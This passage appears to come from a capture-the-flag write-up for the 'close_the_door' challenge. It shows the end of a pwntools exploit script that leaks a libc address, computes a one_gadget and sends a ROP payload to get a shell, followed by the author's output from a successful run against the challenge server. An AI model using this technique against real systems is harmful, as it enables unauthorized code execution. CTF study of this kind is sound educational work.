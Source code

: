 ```
payload += p64(0)
payload += read_plt

#And call hidden_function again
payload += pop_rdi
payload += p64(1)

payload += hidden_func


target.sendline(payload)
print('payload sent')
payload2 = b'\x00' * 8 + b'\x00'
target.sendline(payload2)

result = target.recvuntil(b'Do you', timeout=1)
print('result obtained', result)

write_libc = result.replace(b'Do you', b'').replace(b'\n>', b'')

print(len(write_libc[1:9]))
write_libc_num = u64(write_libc[1:9])
print(hex(write_libc_num))

libc_base = write_libc_num - libc.symbols['write']
onegadget = libc_base + onegadget_offset
strlen_libc = libc_base + libc.symbols["strlen"]
print(hex(strlen_libc))

print(target.recvuntil(b' think this is the secret password?'))


payload = padding
#I like to add extra nulls after onegadgets since sometimes, rsp+0x40=null or similar is a requirement, and the extra nulls sort that if it's not already fulfilled.
payload += p64(onegadget) + b'\x00' * 0x50

target.sendline(payload)


target.interactive()

```

And here is what my successful output looked like:

```
ubuntu@ubuntu1804:~/CTF/HTBApocalypse/close_the_door$ python3 close_the_door_payload.py NOPTRACE
[+] Opening connection to 188.166.173.176 on port 31223: Done
[*] '/home/ubuntu/CTF/HTBApocalypse/close_the_door/close_the_door'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/home/ubuntu/CTF/HTBApocalypse/close_the_door/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
b'Any ideas where to search'
b' \xe2\x9d\x93\n> \n1. \xf0\x9f\x94\x8d for the secret password\n2. Give up'
b' \xf0\x9f\x98\xab\n> You found something interesting!\nDo you think this is the secret password?'
```